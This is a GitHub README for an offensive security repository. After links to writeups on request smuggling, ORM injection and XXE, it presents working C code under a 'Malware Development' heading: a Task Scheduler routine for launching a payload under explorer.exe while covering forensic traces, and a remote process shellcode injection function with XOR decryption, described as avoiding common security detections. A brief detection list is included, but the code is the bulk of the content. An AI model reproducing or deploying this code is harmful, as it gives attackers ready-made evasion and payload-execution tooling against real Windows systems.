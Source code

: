 # Offensive Security Writeups by Samir  

This repository contains various writeups and research documents on offensive security topics, including web vulnerabilities, injection techniques, and memory exploitation. These documents are continuously updated with new research and insights.  

## 📜 Available Writeups  

1. [How CL.TE Request Smuggling Works](./How%20CL.TE%20Request%20Smuggling%20Works.pdf) – Explanation of CL.TE request smuggling attacks and their impact.  
2. [ORM Injection](./ORM%20Injection.pdf) – A deep dive into Object-Relational Mapping (ORM) injection techniques.  
3. [Vulnerabilities](./Vulnerabilities.pdf) – General overview of common security vulnerabilities and their exploitation.  
4. [Why and How Other Users' Requests Are Intercepted](./Why%20and%20How%20Other%20Users%27%20Requests%20Are%20Intercepted.pdf) – Research on request interception and session hijacking.  
5. [XXE Injection](./XXE%20Injection.pdf) – A breakdown of XML External Entity (XXE) attacks and mitigation techniques.  


## 💀 **Malware Development – Parent PID Spoofing via Task Scheduler**

### 🔍 **Technique Explanation**
This technique abuses **Windows Task Scheduler** to create a scheduled task that runs a **malicious payload** while spoofing the **Parent Process ID (PPID)**. This allows malware to execute under a **legitimate process**, such as `explorer.exe`, making it harder to detect.

### 🚀 **How It Works:**
1. **Task Scheduler Object Creation**
   - Initializes the **COM Library**.
   - Retrieves the **Task Scheduler** object.

2. **Creating a Task**
   - A new scheduled task named `ExecME` is created.
   - The task is set to execute `explorer.exe` (which can be modified to run a payload).
   - Parameters and flags are configured for execution.

3. **Saving & Executing the Task**
   - The task is saved to disk and immediately executed.
   - This **bypasses process monitoring tools**, as the malicious process inherits the **legitimate PPID** of `explorer.exe`.

4. **Cleanup & Evasion**
   - The script **deletes the task** after execution, reducing forensic traces.

### 🛡 **Detection & Mitigation:**
✔ Monitor **Windows Event Logs** (Event ID 4698 – Scheduled Task Creation).
✔ Restrict **Task Scheduler permissions** to prevent unauthorized task creation.
✔ Use **behavior-based detection** for suspicious scheduled tasks.

---

## 📝 **Code: Parent PID Spoofing using Task Scheduler**

```c
int spoof_ppid_with_scheduler() {
    HRESULT hr = S_OK;
    ITaskScheduler *pITS;

    // Initialize COM library
    hr = CoInitialize(NULL);
    if (FAILED(hr)) {
        printf("[!] Failed to initialize COM library. Error code = 0x%x\n", hr);
        return -1;
    }

    // Get Task Scheduler object
    hr = CoCreateInstance(CLSID_CTaskScheduler, NULL, CLSCTX_INPROC_SERVER, IID_ITaskScheduler, (void **)&pITS);
    if (FAILED(hr)) {
        printf("[!] Failed to get Task Scheduler object. Error code = 0x%x\n", hr);
        CoUninitialize();
        return -1;
    }

    LPCWSTR pwszTaskName = L"ExecME";
    ITask *pITask;
    IPersistFile *pIPersistFile;

    // Create new task
    hr = pITS->NewWorkItem(pwszTaskName, CLSID_CTask, IID_ITask, (IUnknown**)&pITask);
    if (FAILED(hr)) {
        printf("[!] Failed creating new task. Error code = 0x%x\n", hr);
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Set task parameters
    pITask->SetComment(L"Executing payload");
    pITask->SetApplicationName(L"C:\\Windows\\System32\\explorer.exe");
    pITask->SetWorkingDirectory(L"C:\\Windows\\System32");
    pITask->SetParameters(L"payload_parameters_here");
    pITask->SetFlags(TASK_FLAG_RUN_ONLY_IF_LOGGED_ON);

    // Save the task
    hr = pITask->QueryInterface(IID_IPersistFile, (void **)&pIPersistFile);
    if (FAILED(hr)) {
        printf("[!] Failed saving task. Error code = 0x%x\n", hr);
        pITask->Release();
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    hr = pIPersistFile->Save(NULL, TRUE);
    pIPersistFile->Release();
    if (FAILED(hr)) {
        printf("[!] Failed saving task to disk. Error code = 0x%x\n", hr);
        pITask->Release();
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Run the task
    hr = pITask->Run();
    pITask->Release();
    if (FAILED(hr)) {
        printf("[!] Failed to run task. Error code = 0x%x\n", hr);
        pITS->Release();
        CoUninitialize();
        return -1;
    }

    // Clean up
    pITS->Delete(pwszTaskName);
    pITS->Release();
    CoUninitialize();

    printf("[+] Task Scheduler spoofing successful.\n");
    return 0;
}
```

---

## 🏴 **Upcoming Research & Updates**
✔ New techniques in **malware evasion**.
✔ More **offensive security writeups**.
✔ Research on **custom payload execution**.
✔ Advanced **Windows & Linux attack techniques**.
### Injecting Shellcode into a Remote Process

```c
int inject_shellcode(HANDLE processHandle) {
    PVOID remoteBuf;
    SIZE_T allocSize = encrypted_shellcode_len;

    // Allocate memory in the target process
    NTSTATUS status = NtAllocateVirtualMemory(processHandle, &remoteBuf, 0, &allocSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!NT_SUCCESS(status)) {
        printf("[!] Failed to allocate memory in target process.\n");
        return -1;
    }

    // Decrypt shellcode
    unsigned char decrypted_shellcode[sizeof(encrypted_shellcode)];
    unsigned char expanded_key[EXPANDED_KEY_LEN];
    expand_key(key, strlen(key), expanded_key, EXPANDED_KEY_LEN);
    memcpy(decrypted_shellcode, encrypted_shellcode, sizeof(encrypted_shellcode));
    xor_decrypt(decrypted_shellcode, sizeof(encrypted_shellcode), expanded_key, EXPANDED_KEY_LEN, iv, IV_LEN);

    // Write memory
    SIZE_T bytesWritten = 0;
    status = NtWriteVirtualMemory(processHandle, remoteBuf, decrypted_shellcode, sizeof(decrypted_shellcode), &bytesWritten);
    if (!NT_SUCCESS(status)) {
        printf("[!] Failed to write memory in target process.\n");
        return -1;
    }

    // Execute shellcode
    HANDLE hThread;
    status = NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, processHandle, remoteBuf, 0, NULL, NULL, NULL, NULL, NULL);
    if (!NT_SUCCESS(status)) {
        printf("[!] Failed to create thread in target process.\n");
        return -1;
    }

    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

**Explanation:** This function injects and executes shellcode inside a remote process:

1. **Allocate Memory in Target Process:** Uses `NtAllocateVirtualMemory` to reserve memory in the target process.
2. **Decrypt Shellcode:** The encrypted shellcode is decrypted using XOR-based decryption with an expanded key.
3. **Write Decrypted Shellcode to Target Process:** The `NtWriteVirtualMemory` function writes the shellcode into the allocated memory.
4. **Execute Shellcode in a New Thread:** `NtCreateThreadEx` is used to create a remote thread inside the target process, executing the shellcode.
5. **Wait for Execution Completion:** `WaitForSingleObject` ensures the execution is completed before returning.

This method enables process injection while avoiding common security detections.
